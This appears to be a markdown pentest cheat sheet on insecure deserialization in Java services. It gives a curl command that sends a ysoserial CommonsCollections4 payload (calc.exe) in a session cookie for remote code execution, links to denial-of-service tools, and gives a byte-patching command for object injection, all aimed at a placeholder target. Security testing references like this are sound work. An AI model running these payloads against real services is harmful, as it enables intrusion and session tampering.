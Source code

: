 # Insecure Deserialization

## Table of Contents
- [RCE](#rce)
- [DoS](#dos)
- [Object Injection](#object-injection)

## RCE

### Arbitrary commands can be executed remotely.

- RCE in Java-based services
   ```bash
   curl -X GET https://[VULNERABLE-SERVICE]/ -H "Cookie: JSESSIONID=$(java -jar ysoserial.jar CommonsCollections4 calc.exe | base64)"
   ```

## DoS

### Causes the application to consume excessive resources, leading to service unavailability.

- DoS in Java-based services
  - Github gist, [SerialDOS.java](https://gist.github.com/coekie/a27cc406fc9f3dc7a70d)
  - Github repository, [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner/tree/master?tab=readme-ov-file#manual-tester)

## Object Injection

### Object manipulation can lead to IDOR or logical flaws.

- Object injection in Java-based services
   ```bash
   # Manipulate the 32nd byte of the object to an arbitrary value (1) and send it
   printf '\x01' | dd of=object.ser bs=1 seek=31 count=1 conv=notrunc && curl -X GET https://[VULNERABLE-SERVICE]/ -H "Cookie: JSESSIONID=$(base64 -w 0 object.ser)"
   ```